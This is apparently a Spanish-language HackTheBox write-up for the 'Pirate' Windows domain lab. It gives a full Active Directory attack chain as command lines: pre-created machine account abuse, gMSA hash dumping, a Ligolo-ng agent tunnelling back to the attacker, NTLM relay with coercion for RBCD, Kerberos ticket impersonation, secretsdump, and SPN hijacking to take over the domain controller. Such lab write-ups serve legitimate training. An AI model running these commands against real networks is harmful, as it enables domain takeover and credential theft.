# Pirate HTB
**IP:** 10.10.14.165 | **Target:** 10.129.24.120 | **Dificultad:** Dificil | **Sistema:** Windows 

* El CRTA: DMZ → Red interna → Dominio
* El targe 10.129.244.95: sera un controlador de dominio directamente
## Fase1: Reconocimiento ye scaneo de puertos

Escaneo de todos los peurtos y servicion

```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.129.24.120
```


como referencia teniamos que este targe ya es un controlador de dominio, entonces si cumplira con el escaneo de peurtos especificos 53.88.389.636
```bash
nmap -n --disable-arp-ping -PE -p 53,88,389,636 -sV -sC --unprivileged 10.129.24.120
```

* Controlador de dominio: DC01.pirate.htb
* Puero 389, 636, 3268, 3269 nos hablan del dominio "pirate.htb"
* El puerto 5985 tien WinRM abierto
    * El puerto WinRM que permite a los administradores gestionar, configurar y ejecutar comandos en equipos Windows remotos, HTTP para puerto 5985 y HTPPS para puerto 5986

## Fase 2: Enumeración del Dominio y Abuso de Pre-Windows 2000
Se agrega el dominio a mi maquina

```bash
echo "10.129.24.120 pirate.htb DC01.pirate.htb" >> /etc/hosts
```
o manualmente con nano, digitando el comando anterior
```bash
nano /etc/hots
```
Se eliminara de forma permanente la base de datos de SQLite donde NetExec (nxc) almacena todos los resultados de enumeración (esto porque no me funcionaba al ejecutar netsex con smb)
```bash
rm -f /root/.nxc/workspaces/default/smb.db
```
Probamos si el ususaio y contraseñas fueron para el protocolo SMB
```bash
netexec smb 10.129.24.120 -u pentest -p 'p3nt3st2025!&' --users
```


Con tal usuario, buscaremos cuentas de servicio y ver si se encunetra una con Domain admin (SPN) **Visto en el curso de OPalomino**

```bash
impacket-GetUserSPNs pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.24.120
```

Buscaremos tambien cuentas de servicio pero las que no necesiten autenticacion
```bash
impacket-GetNPUsers pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.24.120 -request
```
No habra ninguna,  ahora se quera sacar el hash de la cuenta SPN pero no se podra
```bash
impacket-GetUserSPNs pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.24.120 -request
```

* **El comando no servira porque el kali estara desincronizado con el AD**
* **Con las credenciales soy el usuario pentest, no tengo nada de poder sobre algo**


Para sincronizar los tiempos de KALI y AD, se usara rdate, se **instalara, apagara el servicion de sincronizacion automatica y se forzara para que sea igual al AD**


```bash
apt install rdate -y
timedatectl set-ntp false
rdate -n 10.129.24.120
```
Recien funcionara el comando para sacar el hash:
```bash
impacket-GetUserSPNs pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.24.120 -request
```


**esto sera  un rabbit hole (una trampa del creador de la máquina)**

## Nuevo enfoque
**Un auditor o pentester siempre revisa qué hay dentro de los grupos "sensibles". El grupo Pre-Windows 2000 Compatible Access es uno de ellos por DEFINICION.**

"Pre-Windows 2000 Compatible Access" es un grupo de Active Directory. En sistemas modernos, debería estar vacío. Si un administrador mete allí al grupo "Usuarios Autenticados" (Authenticated Users), le da permiso a cualquier usuario para leer objetos protegidos.
```bash
netexec ldap 10.129.24.120 -u pentest -p 'p3nt3st2025!&' -M pre2k
```

* Encontró dos cuentas de máquina creadas previamente (MS01$ y EXCH01$) y, aprovechando sus permisos de lectura, verificó que tenían su propio nombre como contraseña.
* automáticamente le pidió al Controlador de Dominio un ticket Kerberos (TGT) y lo guardó
* cuando los administradores de TI van a instalar un nuevo servidor, a veces "pre-crean" la cuenta en el Active Directory antes de enchufar la máquina física

Si queremos saber donde se guardaron las contraseñas
```bash
ls -l /root/.nxc/modules/pre2k/ccache/
```


Usaremos el usuario y contraseñas encontrados para obtener has NTLM de **Cuentas de servicio**
```bash
netexec ldap DC01.pirate.htb -u 'MS01$' -p 'ms01' -k --gmsa
```

* MS01$ es una cuenta maquina o servidor,se crean automáticamente al unir un equipo al dominio
* El administrador del AD configuro una cuenta de servicio (gMSA) para que corra programas en esa maquina o servidor

Ahora veremos cuál de los dos hashes nos da acceso (con cualquiera sirve)


```bash
netexec winrm DC01.pirate.htb -u 'gMSA_ADCS_prod$' -H '89fb53c2bc3eadb4142b4158cfdb2997'

netexec winrm DC01.pirate.htb -u 'gMSA_ADFS_prod$' -H 'accd0fdfe82ff8c84cd710244c7302e8'

```
Veremos que sirve, ahora Para obtener una shell interactiva por WinRM en Linux ejecutamos 

```bash
evil-winrm -i 10.129.24.120 -u 'gMSA_ADCS_prod$' -H '89fb53c2bc3eadb4142b4158cfdb2997'
```
Ahora veremos la ip del controlador de dominio DC01



* El ip config muestra que hay otra red entonces en la red que estoy ahorita es una red externa

## Fase 3: Pivoting y Evasión con Ligolo-ng

Borramos rutas viejas, primero ver las interfaces y las rutas

```bash
ip a
ip route
```
Limpiamos

```bash
sudo ip link delete ligolo 2>/dev/null
```
Ahora crearemos una interfaz de red y se encendera
```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ip a
```


Se configura la ruta hacia la dred interna (red interna: 192.168.100.1)

```bash
ip route add 192.168.100.0/24 dev ligolo
```


ejecutamos el proxy
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```


Como estamos dentro de Evil-WinRM, no se necesitara un servidor de Python; se usara el comando interno upload
**pero se utilizara el agente para windows, las verciones del agente y proxy deven ser las mismas**
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_agent_0.8.3_windows_amd64.zip
```
Descomprimimos (ojo que se suscribio la licencia del ahgente de linux a la del .exe)
```bash
unzip ligolo-ng_agent_0.8.3_windows_amd64.zip
```
En la maquina afectada windows ejecutamos
```bash
upload /home/kali/agent.exe
```
Ahora lo conectamos a nuestro tunel usando nuestra ip del vpn

```bash
./agent.exe -connect 10.10.14.165:443 -ignore-cert
```


en la maquina kali, apretamos enter, ejecutamos session y precionamos enter


**Ahora podremos hacer ping a la red interna**

## Fase 4: Enumeración Interna y Ataque RBCD (User Flag)
veremos quienes estara en esta red, el que me funciono mejor fue el primer comando
```bash
nmap -n -Pn -sT --top-ports 50 --open --min-rate 1000 192.168.100.0/24 
nmap -sn --unprivileged 192.168.100.0/24 
nmap -n --disable-arp-ping -PE -p 53,88,389,636 -sV -sC --unprivileged 192.168.100.1-254
```

* Se encontro la 192.168.98.2

Notar la diferencia, en el target se querire credenciales, signing: true


En la nueva red tendra el signing: false

* firma SMB deshabilitada

Ahora con lo anterior en cuenta, habra una forma de ataque, en kali dejamos en escucha
```bash
impacket-ntlmrelayx -t ldap://192.168.100.1 -smb2support --remove-mic --delegate-access --escalate-user gMSA_ADCS_prod$
```
* Si se tiene extio , se le dira al controlado de dominio que modifique los permisos de la victima en el directorio activo dandole  a **gMSA_ADCS_prod$** el poder absoluto

La máquina WEB01 (192.168.100.2) esta en una red interna y no tenía ruta para llegar a tu IP de Kali, en el ligolo

```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```


Ahora en otra terminal obligaremos a la victima a caer
```bash
netexec smb 192.168.100.2 -u 'gMSA_ADCS_prod$' -H '89fb53c2bc3eadb4142b4158cfdb2997' -M coerce_plus -o LISTENER=10.10.14.165
```

* La maquina WBB01 cayo en la trampa **ataque RBCD**

En la otra terminal de escucha recibiremos respuesta


* La cuenta de servicio "gMSA_ADCS_prod$" no tenia permisos sobre la cuenta maquina WEB, se inyecto el permiso con el **ntlmrelayx** al tenerlo como escucha y presiona el gatillo con el **netexec...coerce_plus..**

Como ya tengo el permiso RBCD, se usar la herramienta getST para pedir un ticket valido como "Administrator" (nivelar los tiempos con rdate antes)
```bash
 impacket-getST -spn cifs/WEB01.pirate.htb -impersonate Administrator -dc-ip 192.168.100.1 'pirate.htb/gMSA_ADCS_prod$' -hashes :89fb53c2bc3eadb4142b4158cfdb2997
```


Pass the ticet, hacer que kali carge este ticket falso en la memoria de las demas herramientas
```bash
export KRB5CCNAME='Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache'
```
Usando el ticket cargado, entramos a WEB01 y volcaeremos su base de datos local (SAM y LSA Secrets). 
```bash
impacket-secretsdump pirate.htb/Administrator@WEB01.pirate.htb -k -no-pass -target-ip 192.168.100.2
```


* Aquí encontraremos la contraseña en texto plano de a.white que sera **E2nvAOKSz5Xz2MJu**


Usando el mismo ticket, abriremos una consola interactiva con privilegios de sistema
```bash
impacket-psexec pirate.htb/Administrator@WEB01.pirate.htb -k -no-pass -target-ip 192.168.100.2
```



## Fase 5: SPN Hijacking y Transición de Protocolo (Root Flag)

Ahora el objetivo final es el controlador de dominio DC01, veremos si las credenciales son correctas viendo los susuarios con a.white
```bash
netexec smb 192.168.100.1 -u 'a.white' -p 'E2nvAOKSz5Xz2MJu' --users
```


Sabemos que a.white no tiene poder, pero tiene el derecho de cambiarle la clave al administrador a.white_adm.
```bash
net rpc password a.white_adm 'PwnedPirate2026@' -U 'pirate.htb\a.white%E2nvAOKSz5Xz2MJu' -S 192.168.100.1
```

```bash
netexec smb 192.168.100.1 -u 'a.white_adm' -p 'PwnedPirate2026@'
```


Ahora necesitamos un script específico que permite manipular atributos de servicios (SPN) enviando los hashes directamente.

```bash
git clone https://github.com/dirkjanm/krbrelayx.git
```

```bash
cd krbrelayx
```
Ahora que somos a.white_adm (que tiene el permiso WriteSPN), vamos a robar el servicio web de la máquina WEB01 y se lo vamos a pegar al Controlador de Dominio.
```bash
python3 addspn.py -u 'pirate.htb\WEB01$' -p 'aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9' -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 192.168.100.1
```


Pegar el servicio al Controlador de Dominio (DC01)

```bash
python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'PwnedPirate2026@' -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 192.168.100.1
```


El Engaño a Kerberos (Transición de Protocolo), el terreno está preparado. Ahora vamos a pedirle a Kerberos que nos deje entrar.
Limpiar la memoria (Crucial)

```bash
unset KRB5CCNAME
```
Forjamos el ticket de Administrador
```bash
impacket-getST -spn HTTP/WEB01.pirate.htb -impersonate Administrator -dc-ip 192.168.100.1 'pirate.htb/a.white_adm:PwnedPirate2026@' -altservice CIFS/DC01.pirate.htb
```

Cargamos el nuevo pase den la memoria de kali Pss the tcket

```bash
export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```
Ahora tendremos acceso a la consola interactiva
```bash
impacket-psexec pirate.htb/Administrator@DC01.pirate.htb -k -no-pass -target-ip 192.168.100.1
```
